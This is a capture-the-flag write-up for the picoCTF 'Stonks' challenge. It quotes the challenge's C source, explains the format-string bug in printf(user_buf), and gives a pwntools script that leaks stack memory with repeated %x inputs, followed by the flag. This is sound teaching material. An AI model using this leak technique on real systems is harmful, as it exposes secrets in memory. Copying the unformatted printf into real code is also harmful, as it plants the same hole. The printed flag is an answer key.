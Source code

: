 # Writeup - Stonks
Category: Binary Exploitation, Points: 100


## Descpriton

> I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

We can connect to the program with netcat: `nc mercury.picoctf.net 6989`

A source file is given


## Vulnerability

Given the source:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
  int shares;
  char symbol[MAX_SYM_LEN + 1];
  struct Stonks *next;
} Stonk;

typedef struct Portfolios {
  int money;
  Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
  if (!p) {
    return 1;
  }
  printf("\nPortfolio as of ");
  fflush(stdout);
  system("date"); // TODO: implement this in C
  fflush(stdout);

  printf("\n\n");
  Stonk *head = p->head;
  if (!head) {
    printf("You don't own any stonks!\n");
  }
  while (head) {
    printf("%d shares of %s\n", head->shares, head->symbol);
    head = head->next;
  }
  return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
  if (shares < 1) {
    return NULL;
  }
  Stonk *stonk = malloc(sizeof(Stonk));
  stonk->shares = shares;

  int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
  for (int i = 0; i <= MAX_SYM_LEN; i++) {
    if (i < AI_symbol_len) {
      stonk->symbol[i] = 'A' + (rand() % 26);
    } else {
      stonk->symbol[i] = '\0';
    }
  }

  stonk->next = NULL;

  return stonk;
}

int buy_stonks(Portfolio *p) {
  if (!p) {
    return 1;
  }
  char api_buf[FLAG_BUFFER];
  FILE *f = fopen("api","r");
  if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
  }
  fgets(api_buf, FLAG_BUFFER, f);

  int money = p->money;
  int shares = 0;
  Stonk *temp = NULL;
  printf("Using patented AI algorithms to buy stonks\n");
  while (money > 0) {
    shares = (rand() % money) + 1;
    temp = pick_symbol_with_AI(shares);
    temp->next = p->head;
    p->head = temp;
    money -= shares;
  }
  printf("Stonks chosen\n");

  // TODO: Figure out how to read token from file, for now just ask

  char *user_buf = malloc(300 + 1);
  printf("What is your API token?\n");
  scanf("%300s", user_buf);
  printf("Buying stonks with token:\n");
  printf(user_buf);

  // TODO: Actually use key to interact with API

  view_portfolio(p);

  return 0;
}

Portfolio *initialize_portfolio() {
  Portfolio *p = malloc(sizeof(Portfolio));
  p->money = (rand() % 2018) + 1;
  p->head = NULL;
  return p;
}

void free_portfolio(Portfolio *p) {
  Stonk *current = p->head;
  Stonk *next = NULL;
  while (current) {
    next = current->next;
    free(current);
    current = next;
  }
  free(p);
}

int main(int argc, char *argv[])
{
  setbuf(stdout, NULL);
  srand(time(NULL));
  Portfolio *p = initialize_portfolio();
  if (!p) {
    printf("Memory failure\n");
    exit(1);
  }

  int resp = 0;

  printf("Welcome back to the trading app!\n\n");
  printf("What would you like to do?\n");
  printf("1) Buy some stonks!\n");
  printf("2) View my portfolio\n");
  scanf("%d", &resp);

  if (resp == 1) {
    buy_stonks(p);
  } else if (resp == 2) {
    view_portfolio(p);
  }

  free_portfolio(p);
  printf("Goodbye!\n");

  exit(0);
}
```
As we can see in the source. there is a `printf(user_buf)` which does not have any formatting. This is a format-string vulnerability.


## Exploit

Here the `%x` symbol gives you the hexadecimal values. Since the `printf(user_buf)` line is not formatted if we give `%x` symbol as input it pops of values from the stack and prints them.

Steps:
1. For the first question type `1`.
2. For the question `What is your API token?` give a bunch of `%x` to leak out the values of some variables before `user_buf`. It will give you the output in hexadecimal.
3. Use an ASCII converter to convert hexadecimal into ASCII text.
4. Reverse the ASCII text and print it.

Here's the exploit in python - this script does all of the 4 steps:

```python
import sys
from pwn import *

r = remote('mercury.picoctf.net', 6989) if sys.argv[1] == "remote" else ELF("./vuln").process()

r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")
r.send("%x" + "-%x"*100 + "\n")
r.recvline()

x = r.recvline()
x = x[:-1].decode()

s = ""
for i in x.split('-'):
  if len(i) != 8: continue
  a = bytes.fromhex(i)
  for b in reversed(a): s += chr(b) if b > 32 and b < 128 else ""
print(s)
```


## Flag
`picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`
